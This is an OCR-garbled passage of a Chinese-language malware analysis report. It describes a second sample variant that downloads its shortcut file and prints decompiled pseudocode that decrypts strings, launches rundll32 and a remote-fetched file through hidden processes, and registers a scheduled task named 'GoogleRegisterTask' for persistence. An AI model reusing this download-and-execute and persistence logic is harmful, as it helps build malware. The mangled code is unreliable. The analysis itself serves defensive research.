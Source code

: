 后续则循环上述通信步骤。  

#### 2.2.2类型2分析描述  

类型2与类型1在功能上几乎是一致的，以下仅有区别的部分进行描述：  

区别1：Ink文件通过下载而非文件解密后释放。  

v4=strlen(Str);   
Block = decrypt_100041co((int)Str,v4,&v4);// rundl132.exe C:\windows\System32\shimgvw.dll,ImageView_Fullscree   
Block[v4+1]=0;   
Block[v4]=0;   
vswprintf_10001075（Buffer,0x12Cu,(wchar_t\*)L"%s",Block);   
free(Block);   
vswprintf_10001075（CommandLine,0xFFu,（wchar_t\*)L"%s %s",Buffer,a1);   
if（CreateProcessW（0,CommandLine，0,θ,0,Ox8ooooeou，,θ，&StartupInfo,（LPPROCESS_INFORMATION）&hProcess）)   
{ memset（&v5,0,sizeof（v5)); v5.cb=68； v5.dwFlags=1; v5.wShowWindow=0; memset（&hobject,0,0x10u); sub_10001135( Str, OxFFu, "bBA3BKRBBAyBG1BOtBuBKJBZRAwBD3BYRAvBDFBaBAoB@7BZtAuBD3BOtAnBD;BdBzB@；BdAoBDBbRA3B@7BgBAwBKBB"， (char)Block); v4= strlen(Str); Blocka = decrypt_100041co((int)Str,v4,&v4);// https://r; /regit.tmp Blocka[v4+1]=0; Blocka[v4]=0; vswprintf_10001075(v7,0x12Cu,（wchar_t\*)L"%s",Blocka); free(Blocka); vswprintf_10001075（CommandLine,0xFFu,（wchar_t\*)L"%s %s",Buffer,v7); CreateProcessW(0,CommandLine,0,0,0,0x8000000u,0,0,&v5,（LPPROCESS_INFORMATION)&hObject);   
return0; ExpandEnvironmentStringsW(Src,Dst,OxFFu);   
$v32=$ ((int(_stdcal1 \*)(wchar_t \*))sub_10003389)(Dst);   
$\vee31~=~\vee32$ ；   
LOB $\forall\top E(\lor36)=2$   
$v30=$ ((int (cdecl \*)(char \*, wchar_t \*, int))sub_10003854)(v20, L"-a ", v32);   
sub_100032F1(v30);   
sub_100032D8(v20);   
LOBYTE(v36) $=~1$   
sub_100032D8(v19);   
sub_100032C2((wchar_t \*)L"s^bovb-f{f");   
$v27~=~\&\lor16$   
$v26=$ ((int (_stdcal1 \*)(wchar_t \*))sub_10003389)((wchar_t \*)L"PT30s");   
LOBYTE(v36) $=3$   
$\lor25~=~\&\lor10$   
$v24=$ sub_100033F1((int)v44);   
LOBYTE(v36) $=4$ ；   
$v23~=~8v4$ ；   
$v29~=~8v4$   
$v22~=~8v3$   
sub_100033F1((int)v45);   
$\vee21=$ sub_100016BA((int)v29, $v3$   
LOBYTE $(\vee36)=1$   
sub_10002430((int)L"GoogleRegisterTask",v4, v5, v6, v7,v8,v9, v10, v11, v12, v13, V14, v15, v16); $\vee17~=~\&\vee39$   
vswprintf_10001075(ExistingFileName, 0xFFu,(wchar_t \*)L"%s\\%s"，a1);   
CopyFileW(ExistingFileName, Dst, 0);   
lnk_check_100274F4 $=~1$ ；   
TerminateProcess(hobject, 0);   
CloseHandle(hobject);   
CloseHandle(\*(&hobject $^{+1}$  
